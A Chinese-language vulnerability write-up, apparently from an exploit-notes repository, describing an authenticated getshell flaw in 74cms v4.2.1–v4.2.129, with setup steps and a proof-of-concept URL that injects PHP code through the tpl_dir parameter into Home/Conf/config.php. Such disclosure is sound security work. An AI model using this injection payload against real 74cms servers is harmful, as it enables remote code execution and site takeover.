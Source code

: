 # 

# 74cms v4.2.1 v4.2.129 后台getshell漏洞

## 漏洞描述

厂商：74cms
下载地址：http://www.74cms.com/download/index.html
关于版本：
新版的74cms采用了tp3.2.3重构了，所以可知底层是tp，74cms新版升级是后台升级的，所以先将将升级方法。
注：此漏洞不用升级至最新版本也可使用。

## 漏洞复现

### 74cms升级到最新版

1， 先去官网下载 骑士人才系统基础版(安装包)
2， 将下载好的包进行安装
3， 进入后台点击查看如果不是最新版的话，请点击升级！
4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决
5， 搜索文件74cms\upload\Application\Admin\Controller\ApplyController.class.php
6， 查找所有$_SERVER['HTTP_HOST'] 改为 http://baidu.com 即可

### 漏洞演示

![image-20221207161107878](images/image-20221207161107878.png)

url:

```
 http://74cms.test/index.php?m=Admin&c=Tpl&a=set&tpl_dir= ', 'a',phpinfo(),'
```

shell:

```
http://74cms.test/Application/Home/Conf/config.php
```

路径：

```
\74cms\upload\Application\Home\Conf\config.php
```

![image-20221207161145037](images/image-20221207161145037.png)

![image-20221207161151234](images/image-20221207161151234.png)
